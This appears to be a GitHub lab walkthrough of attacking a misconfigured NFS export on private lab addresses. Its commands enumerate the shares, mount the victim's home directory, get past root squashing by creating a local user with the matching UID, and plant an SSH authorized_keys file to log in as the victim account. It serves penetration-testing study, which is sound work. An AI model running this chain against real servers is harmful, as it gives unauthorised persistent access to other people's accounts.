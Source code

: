 
<h3>ip victime : 192.168.244.132</h3>

<h3>ip attacker : 192.168.244.133</h3>

------------------------------------------------

in attacker:

#`nmap -p 111,2049 -sV 192.168.244.132`

<img width="960" alt="keypad" src="https://github.com/ferasku123/Enumeration/blob/main/3-nfs/x%20pentest%20nfs/nmap scan.png">



now the nfs server is open

you must to khnow what is the share folder:

#`showmount -e 192.168.244.132`

<img width="960" alt="keypad" src=>

--------------------------------------------------------------------------------------------------------

now let's mount the nfs server 

#`mount -t nfs 192.168.244.132:/home/feras-admin /mnt`

#`cd /mnt`

#`ls -la`

<img width="960" alt="keypad" src=>

---------------------------------------------------------------------------------------------------------

now let test if the no_root_squash if is enabled

the folder .ssh it is owner for user called 1006 in target  if i change dirictory to .ssh folder the no_root_squash is enable if you deny the no_root_squash is disabled


now i am root in client 

#`whoami`

#`cd .ssh`

<img width="960" alt="keypad" src=>



now the no_root_squash is disabled so how to  bypass this the folder .ssh it is owner for target user named is 1006, in the real the 1006 it is not username in target it is is uid for username in target , so to bypass this you must create user in the attacker with the uid 1006


#`ls -la `

#`useradd -u 1006 test`

#`passwd test`

#`mkdir test`

#`chown test:test /home/test`




<img width="960" alt="keypad" src=>

now the user test is created with uid 1006

----------------------------------------------------------------


now lets show the dirictory in /mnt with the owner 

#`cd /mnt`

#`ls -la`

now the user is owner for user test , now lets login in the user test and chang directory to .ssh

#`su test`

$`/bin/bash`

$`cd .ssh`


$`ls -l`


<img width="960" alt="keypad" src=>

now the bypass it is ok

--------------------------------------------------------------------------------------

now let create public and private key for he test user 

$`ssh-keygen -t rsa`

now let's copy the public key for test user /home/test/.ssh/id_rsa.pub to the /mnt/.ssh/ with name  authorized_keys 

$`cp /home/test/.ssh/id_rsa.pub /mnt/.ssh/authorized_keys`

now you must important to chang permssion test to 644

$`chmod 644 /mnt/.ssh/authorized_keys`

<img width="960" alt="keypad" src=>

-------------------------------------------------------------------------------------------

now let's login from test user in attacker to the feras-admin in target

$`ssh feras-admin@192.168.244.132`

<img width="960" alt="keypad" src=>

